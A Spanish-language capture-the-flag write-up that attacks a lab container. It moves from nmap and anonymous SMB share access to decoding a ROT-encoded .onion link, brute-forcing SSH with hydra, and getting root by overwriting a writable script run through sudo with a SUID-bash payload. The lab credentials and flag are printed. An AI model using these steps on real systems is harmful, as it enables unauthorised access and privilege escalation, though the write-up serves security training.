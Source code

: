 Empezamos haciendo un escaneo de puertos:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn 172.17.0.2
```

Y nos da los siguientes puertos abiertos:

```
PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 aa:df:30:8b:17:c5:3c:80:1c:88:f1:f8:c0:ac:cc:fa (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIwcQLG7cG3zykVrxNhY3Zf8Oeu1rZrDHXovo6xce8rYj7bvEKWHidRa32QtZQlumnfzwSMFrfeat8T1st72IVI=
|   256 aa:6a:33:65:fc:54:b7:8f:98:ff:1f:3d:79:a3:05:3c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPi9HNorx51v8Q8nh0LuhsEgTIC1KB/UrY6Sw5/Im9y4
139/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4
445/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 21783/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 4261/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 58197/udp): CLEAN (Timeout)
|   Check 4 (port 17420/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2025-07-03T21:45:06
|_  start_date: N/A
|_clock-skew: 0s
```

Nos llama la atención el puerto 445, por lo tanto vamos a tirar el reconocimiento por ahí. 

Ejecutamos el siguiente comando:

```
smbclient -L 172.17.0.2 -N

    Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        darkshare       Disk      
        IPC$            IPC       IPC Service (5e24847105d5 server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.
smbXcli_negprot_smb1_done: No compatible protocol selected by server.
Protocol negotiation to server 172.17.0.2 (for a protocol between LANMAN1 and NT1) failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available
```

Nos conectamos a smb y vemos que hay un montón de archivos. Nos los descargamos todos.

```
smbclient  \\\\172.17.0.2\\darkshare
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Dec 14 05:24:32 2024
  ..                                  D        0  Sat Dec 14 05:24:32 2024
  archivesDatabases.txt               N      563  Sat Dec 14 05:16:30 2024
  ilegal.txt                          N      204  Sat Dec 14 05:24:32 2024
  credentials.txt                     N      631  Sat Dec 14 05:17:13 2024
  hackingServices.txt                 N      662  Sat Dec 14 05:18:19 2024
  drugs.txt                           N      526  Sat Dec 14 05:17:49 2024
```

El archivo que nos muestra algo importante es el de *ilegal.txt*:

```
cat ilegal.txt         

St qj htrufwyfx jxyf uflnsf f sfinj, xtqt vznjwt vzj qt ajfx yz, df vzj jxyt rj uzjij rjyjw jq uwtgqjrfx: q2kmnaxwhgdy2sz5wnqrarvrmuemzlfn5xewrdwxdgtdpeaxtpki6ini.tsnts

#NOTE:

use 5, you understand me
```

Vemos que es un mensaje que puede estar cifrado. Probamos en cyberchef a ver en que está cifrado.

En cyberchef conseguimos descifrarlo, estaba cifrado en rot 2. El mensaje descifrado es:

```
No le compartas esta pagina a nadie, solo quiero que lo veas tu, ya que esto me puede meter el problemas: l2fhivsrcbyt2nu5rilmvmqmhpzhugai5szrmyrsyboykzvsokfd6did.onion
```

Se trata de una página de tor al ser .onion 
Nos devuelve esta web:

![](Captura de pantalla 2025-07-04 001948.png)

Le damos a *Access the Darkest Web* y nos muestra esto:

![[Captura de pantalla 2025-07-04 002133.png]]

Seleccionamos *Red Room 27* y nos manda a esta página, donde le preguntamos por user, éste nos devuelve un nombre de usuario.

![[Pasted image 20250704002511.png]]

A continuación debemos buscar un diccionario para intentar hacer fuerza bruta con ese usuario 

En el apartado *Hidden Marketplace* vemos cosas sospechosas, por tanto leemos el código fuente y vemos un nombre de un posible diccionario

![[Captura de pantalla 2025-07-04 002919.png]]

Vemos que nos tiene que redirigir a un archivo de texto, pero no sabemos como, probamos poniéndolo en la url y tenemos premio


![[Captura de pantalla 2025-07-04 002722.png]]

Todas estas posibles contraseñas nos las metemos en un archivo y a continuación, con el usuario que tenemos (dark) hacemos fuerza bruta para entrar por ssh:

```
hydra -l dark -P contraseñas.txt ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-03 18:32:46
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 51 login tries (l:1/p:51), ~4 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: dark   password: oniondarkgood
```

Y ahora entramos por ssh con estas credenciales y leemos la primera flag del usuario:

```
dark@5e24847105d5:~$ ls
hidden.py  user.txt
dark@5e24847105d5:~$ cat user.txt
2eedcb4e067f16aa9c795fd05f3056bd
dark@5e24847105d5:~$ 
```

Ahora para escalar privilegios hacemos un sudo -l:

```
dark@5e24847105d5:~$ sudo -l
Matching Defaults entries for dark on 5e24847105d5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User dark may run the following commands on 5e24847105d5:
    (ALL : ALL) NOPASSWD: /home/dark/hidden.py
```

Vemos que ejecutamos como root ese script. Este script haría esto:

```
dark@5e24847105d5:~$ cat hidden.py 
#!/bin/python3

import subprocess

# Ruta al archivo Update.sh
script_path = '/usr/local/bin/Update.sh'

# Ejecutar el script de Bash
try:
    subprocess.run(['bash', script_path], check=True)
    print("Script ejecutado con éxito.")
except subprocess.CalledProcessError as e:
    print(f"Hubo un error al ejecutar el script: {e}")
```

Lo ejecutamos y:

```
dark@5e24847105d5:~$ ./hidden.py 
dark
Script ejecutado con éxito.
```

Si leemos el script vemos que ejecuta un Update.sh, que está en la ruta /usr/local/bin/. En dicha ruta somos del grupo de la carpeta por tanto podemos eliminarla y crearnos nuestro *Update.sh* de esta manera:

```
#!/bin/bash

chmod u+s /bin/bash
```

Lo guardamos, le damos permisos de ejecución y ahora si ejecutamos el script como sudo:

```
dark@5e24847105d5:~$ sudo /home/dark/hidden.py
Script ejecutado con éxito.
dark@5e24847105d5:~$ bash -p
bash-5.2# whoami
root
```

Y finalmente, pwned :)
